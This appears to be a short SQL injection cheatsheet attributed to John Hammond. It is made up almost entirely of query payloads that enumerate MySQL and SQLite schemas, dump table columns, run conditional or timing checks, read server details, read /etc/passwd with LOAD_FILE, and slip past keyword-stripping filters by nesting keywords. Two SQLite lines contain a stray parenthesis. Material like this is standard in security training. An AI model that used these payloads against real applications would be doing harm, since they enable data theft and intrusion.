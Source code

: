SQL Injection Syntax Cheatsheet
=============

> John Hammond 


Leak all of the database names as a string
-----------------------------

```
SELECT GROUP_CONCAT( SCHEMA_NAME ) FROM INFORMATION_SCHEMA.SCHEMATA
```

Leak all of the tables in one database as a string
-----------

```
SELECT GROUP_CONCAT( TABLE_NAME ) FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA="<DATABASE_NAME>"
```


__TO DO THIS FOR SQLite:__

```
SELECT GROUP_CONCAT(name) FROM sqlite_master WHERE type='table')
```

Leak the column names of a table as a string
------------------

```
SELECT GROUP_CONCAT( COLUMN_NAME ) FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME="<TABLE NAME>"
```

__TO LEAK THE WHOLE SCHEMA OF A TABLE IN SQLITE:__

```
SELECT GROUP_CONCAT(sql) FROM sqlite_master WHERE type='table')
```


Leak the ONE column from a table
------------------

```
SELECT GROUP_CONCAT( "<COLUMN_NAME>" ) FROM "<TABLE NAME>"
```

___IF THIS DOES NOT WORK, TRY WITHOUT THE QUOTES!!___


In-line Conditions (an if statement)
------------------

```
SELECT "value" CASE WHEN condition>0 THEN 'return this' ELSE 'return instead' END
```

This may be best used with timing attacks, like `SLEEP(1)` as the else condition action. Other option might be:

```
SELECT ( IF ( 1=1, "Condition successful!", "Condition errored!" ) )
```

Get the path of the running MySQL instance
------------------


```
SELECT @@datadir
```

Get the version of the running MySQL instance
------------------

```
SELECT @@version
```


Get current user
------------------


```
SELECT user();
```

```
SELECT system_user();
```

Read a file
------------------


```
SELECT LOAD_FILE("/etc/passwd");
```


Etcetera..
------

Some applications try to replace keywords with an empty string. If this is the case, try and trick it by placing the keyword inside of itself. This is devious! 

```
frfromom => from
oorr => or
loaload_filed_file => load_file
selselectect => select
```